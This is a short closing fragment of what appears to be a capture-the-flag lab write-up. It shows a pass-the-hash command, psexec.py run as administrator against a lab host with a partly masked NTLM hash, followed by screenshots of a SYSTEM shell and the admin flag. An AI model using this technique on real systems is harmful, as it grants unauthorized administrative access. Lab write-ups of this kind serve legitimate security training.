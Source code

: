 - I will run this command

```bash
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d5xxxxxxxxxxxxxxxxx
```

- the result

![login as nt authority\system](psexec_admin.png "login as nt authority\system")

### Admin flag
![root flag](admin.png "root flag")
